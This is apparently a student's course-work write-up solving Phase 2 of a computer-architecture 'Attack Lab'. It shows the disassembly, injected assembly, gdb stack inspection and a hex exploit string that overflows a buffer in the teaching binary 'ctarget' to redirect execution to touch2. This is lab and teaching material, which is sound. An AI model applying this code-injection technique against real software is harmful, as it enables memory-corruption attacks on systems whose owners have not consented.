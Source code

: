 ```yaml
---
title: "Attack Lab: Phase 2"
category:
  - "Course Work"
tag:
  - "Computer Organization and Architecture"
  - "Attack Lab"
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b6a <touch2>:
...
```

###### Write File `phase-2-inject.s`

```assembly
movl $0x3a9a6c2f, %edi
pushq $0x0000000000401b6a
retq
```

###### Run

```bash
gcc -c phase-2-inject.s
objdump --disassemble phase-2-inject.o > phase-2-inject.asm
```

###### Read File `phase-2-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	bf 2f 6c 9a 3a       	mov    $0x3a9a6c2f,%edi
   5:	68 6a 1b 40 00       	pushq  $0x401b6a
   a:	c3                   	retq
```

###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) stepi
(gdb) info registers rsp
rsp            0x55668c98       0x55668c98
```

###### Write File `phase-2.txt`

```
bf 2f 6c 9a 3a
68 6a 1b 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-2.txt > phase-2.in
./ctarget -i phase-2.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch2!: You called touch2(0x3a9a6c2f)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
